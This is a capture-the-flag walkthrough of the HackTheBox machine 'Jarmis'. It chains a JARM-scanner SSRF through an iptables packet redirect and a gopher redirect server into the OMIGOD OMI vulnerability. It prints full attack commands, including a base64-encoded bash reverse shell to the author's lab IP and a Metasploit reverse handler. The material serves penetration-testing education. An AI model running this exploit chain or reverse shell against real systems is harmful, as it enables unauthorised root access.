


# Jarmis

This is the write-up for the box Jarmis that got retired at the 27th September 2021.
My IP address was 10.10.14.3 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.117    jarmis.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/jarmis.nmap 10.10.11.117
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ea8421a3224a7df9b525517983a4f5f2 (RSA)
|   256 b8399ef488beaa01732d10fb447f8461 (ECDSA)
|_  256 2221e9f485908745161f733641ee3b32 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Jarmis
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The website shows a message that it is _loading_, but nothing seems to happen after waiting for a while.
The **Developer Tools** of the browser shows, that it tries to connect to the hostname _jarmis.htb_ and when browsing there, it forwards to the _"Jarmis Search Engine"_:



Lets search for hidden directories with **Gobuster**:
```
gobuster -u http://10.10.11.117 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

- _/docs_
  - Documentation for **Jarmis API (0.1.0)** hosted by [Swagger UI](https://swagger.io/tools/swagger-ui/)
- _/redoc_
  - Documentation for **Jarmis API (0.1.0)** hosted by [ReDoc](https://github.com/Redocly/redoc)
- _/api_



There is a tool on GitHub called [JARM](https://github.com/salesforce/jarm), which does the same task and explains **TLS Fingerprinting** in depth.
```
JARM works by actively sending 10 TLS Client Hello packets to a target TLS server and capturing specific attributes of the TLS Server Hello responses. The aggregated TLS server responses are then hashed in a specific way to produce the JARM fingerprint.
```

The search engine or the API can be used to search through the data:
```
curl -s -X 'GET' 'http://10.10.11.117/api/v1/search/id/1' -H 'accept: application/json' | jq
```
```json
{
  "id": 1,
  "sig": "29d29d00029d29d00041d41d0000002059a3b916699461c5923779b77cf06b",
  "ismalicious": false,
  "endpoint": "183.79.219.252:443",
  "note": "yahoo.co.jp"
}
```

Extracting all data into a file:
```
for i in $(seq 0 300); do curl -s -X 'GET' "http://10.10.11.117/api/v1/search/id/$i" -H 'accept: application/json' | jq; done > jarmis-api_data.json
```

Searching for fields where _"ismalicious"_ is _true_:
```
cat jarmis-api_data.json | jq '. | select(.ismalicious==true)'
```

There are 223 IDs in total and 10 of them are malicious.

The ID 135 seems to be an **Ncat listener** and we can try imitate the signature with our own listener:
```json
{                                                                                                 
  "id": 135,                                                                                      
  "sig": "21d000000000000000000000000000eeebf944d0b023a00f510f06a29b4f46",
  "ismalicious": true,                  
  "endpoint": "104.24.4.98",
  "note": "Ncat",
  "server": ""
}
```

Starting **Ncat listener** with SSL:
```
nc -lvnp 443 --ssl
```

Fetching data from our endpoint:
```
curl -s -X 'GET' 'http://10.10.11.117/api/v1/fetch?endpoint=10.10.14.3' -H 'accept: application/json' | jq
```
```json
{
  "sig": "21d000000000000000000000000000eeebf944d0b023a00f510f06a29b4f46",
  "ismalicious": false,
  "endpoint": "10.10.14.3:443",
  "note": "Ncat?",
  "server": ""
}
```

The signature is the same, but the IP does not get marked as malicious because it could not fetch metadata and thus it cannot confirm if it is really **Ncat**.

The same method can be tested with a **Meterpreter listener** on **Metasploit**:
```
msf6 > use exploit/multi/handler

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LPORT 443
msf6 exploit(multi/handler) > set LHOST tun0

msf6 exploit(multi/handler) > run
```

Now the metadata was fetched and the IP is marked as malicious:
```json
{
  "sig": "07d14d16d21d21d00042d43d000000aa99ce74e2c6d013c745aa52b5cc042d",
  "ismalicious": true,
  "endpoint": "10.10.14.3:443",
  "note": "Metasploit",
  "server": "Apache"
}
```

We have a way to imitate the signatures with our IP and know that JARM works by sending 10 different requests.
By using a firewall, it could be possible to direct the service to somewhere else on the 11th packet.

### Enumerating JARM

Creating firewall rule with `iptables` to forward the 11th packet on port 443 to port 8443:
```
iptables -I PREROUTING -t nat -p tcp --dport 443 -d 10.10.14.3 -m statistic --mode nth --every 11 --packet 10 -j REDIRECT --to-port 8443
```

Starting two listeners:
```
nc -lvnp 443 --ssl
```
```
nc -lvnp 8443 --ssl
```

Fetching data from our endpoint:
```
curl -s -X 'GET' 'http://10.10.11.117/api/v1/fetch?endpoint=10.10.14.3' -H 'accept: application/json' | jq
```

There was a connection on the listener on port 443 and the 11th packet was directed to the listener on port 8443:
```
Ncat: Listening on 0.0.0.0:8443
Ncat: Connection from 10.10.11.117.
Ncat: Connection from 10.10.11.117:43316.
GET / HTTP/1.1
Host: 10.10.14.3
User-Agent: curl/7.74.0
```

It uses a **GET request** with `curl` and this can be abused to exploit a **Server Side Request Forgery (SSRF)** vulnerability.
The network protocol **Gopher** can be used as it allows general text in the URI like so:
```
curl gopher://127.0.0.1/_GET%20/site%20HTTP/1.1%0d%0aHost:%20127.0.0.1
```
```
GET /site HTTP/1.1
Host: 127.0.0.1
```

This attack can be used to make HTTP requests from the box, but first an internal service has to be found to connect to.

### Searching for Services

The API can be used to enumerate ports on the IP 127.0.0.1:
```
curl -s -X 'GET' 'http://10.10.11.117/api/v1/fetch?endpoint=127.0.0.1' -H 'accept: application/json' | jq
```
```json
{
  "sig": "00000000000000000000000000000000000000000000000000000000000000",
  "endpoint": "127.0.0.1:443",
  "note": "127.0.0.1"
}
```

When using the hostname _localhost_, it shows _null_ as the value in the _endpoint_ field:
```
curl -s -X 'GET' 'http://10.10.11.117/api/v1/fetch?endpoint=localhost' -H 'accept: application/json' | jq
```
```json
{
  "sig": "00000000000000000000000000000000000000000000000000000000000000",
  "endpoint": "null",
  "note": "localhost"
}
```

But when trying the connection on a port that was found in the initial port scan, then it shows _127.0.0.1_ as the value in the _endpoint_ field:
```
curl -s -X 'GET' 'http://10.10.11.117/api/v1/fetch?endpoint=localhost:22' -H 'accept: application/json' | jq
```
```json
{
  "sig": "00000000000000000000000000000000000000000000000000000000000000",
  "endpoint": "127.0.0.1:22",
  "note": "localhost"
}
```
```
curl -s -X 'GET' 'http://10.10.11.117/api/v1/fetch?endpoint=localhost:80' -H 'accept: application/json' | jq
```
```json
{
  "sig": "00000000000000000000000000000000000000000000000000000000000000",
  "endpoint": "127.0.0.1:80",
  "note": "localhost"
}
```

This can be used to fuzz through all ports and filter for this value in the _endpoint_ field:
```
wfuzz -z range,1-65535 -u http://jarmis.htb/api/v1/fetch?endpoint=localhost:FUZZ --hs "null"
```

The ports 5985, 5986, 8001 behave like the other open ports, which means that these are open on the box.

Two of these ports are likely to be [Open Management Infrastructure (OMI)](https://github.com/Microsoft/omi) developed by Microsoft and this service has a [publicly known vulnerability](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-omi) called **OMIGOD**.

### Exploit Chain

The **SSRF** vulnerability has to be used to connect to the OMI service to exploit it with the **OMIGOD** vulnerability.
The publicly known exploit can be found as [CVE-2021-38647 on GitHub](https://github.com/horizon3ai/CVE-2021-38647).

Creating an SSL certificate for our web server:
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

Creating a web server _(web-server.py)_ with Python:
```python
from http.server import HTTPServer, BaseHTTPRequestHandler
import ssl

class MainHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        print("GET")
        self.send_response(301)
        self.send_header("Location", 'gopher://10.10.14.3/5985/_Test')
        self.end_headers()

httpd = HTTPServer(('0.0.0.0', 8443), MainHandler)
httpd.socket = ssl.wrap_socket(httpd.socket,
                               keyfile="key.pem",
                               certfile="cert.pem",
                               server_side=True)

httpd.serve_forever()
```

Starting **Ncat listener** with SSL that will be fetched by the API:
```
nc -lvnp 443 --ssl
```

Starting the SSL Python web server, which will take the 11th request from **JARM** and exploit the **SSRF** vulnerability to forward the connection to port 5985:
```
python3 web-server.py
```

Starting the listener on port 5985 that will receive the request from the box:
```
nc -lvnp 5985
```

After starting all listeners, the request to the API can be sent:
```
curl -s -X 'GET' 'http://10.10.11.117/api/v1/fetch?endpoint=https://10.10.14.3:443' -H 'accept: application/json' | jq
```

It will connect to the **Ncat listener** on port 443 and the `iptables` rule will forward the 11th packet to port 8443.
This port is used by the _web-server.py_, which uses a _Location_ header to port 5985 and the listener on this port receives the final connection.

After successfully proving the exploit chain, this can be used to exploit **OMIGOD** and get a reverse shell.

Adding proxy to the _omigod.py_ script to send the request to **Burpsuite**:
```python
# (...)
r = requests.post(f'https://{target}:5986/wsman', headers=headers, data=DATA.format(command), verify=False, proxies={'https':'http://localhost:8080'})
# (...)
```

Encoding reverse shell command with Base64:
```
echo -n 'bash -i >& /dev/tcp/10.10.14.3/9001 0>&1' | base64 -w 0
```

Executing the exploit script _omigod.py_ and intercepting the request:
```
python3 omigod.py -t 10.10.11.117 -c 'echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzkwMDEgMD4mMQ== | base64 -d | bash'
```

The network protocol **Gopher** adds two bytes to the end of a request, so the header _Content-Length_ has to be incremented by two:
```
POST /wsman HTTP/1.1
Host: 10.10.11.117:5986
(...)

Content-Length: 1728

(...)
<p:command>
  echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzkwMDEgMD4mMQ== | base64 -d | bash
</p:command>
(...)
```

URL-encoding the request:
```
Select the request -> Convert selection -> URL -> URL-encode all characters
```

Modifying payload in _web-server.py_ to include the URL-encoded HTTP request:
```python
# (...)
self.send_header("Location", 'gopher://127.0.0.1:5985/_%50%4f%53%54%20%2f%77%73%6d%61(...)')
# (...)
```

Starting all listeners:
```
nc -lvnp 443 --ssl

python3 web-server.py

nc -lvnp 9001
```

Sending the request to the API:
```
curl -s -X 'GET' 'http://10.10.11.117/api/v1/fetch?endpoint=https://10.10.14.3:443' -H 'accept: application/json' | jq
```

After sending the request, the exploit chain will be successful and exploit the **OMIGOD** vulnerability to spawn a reverse shell as root!
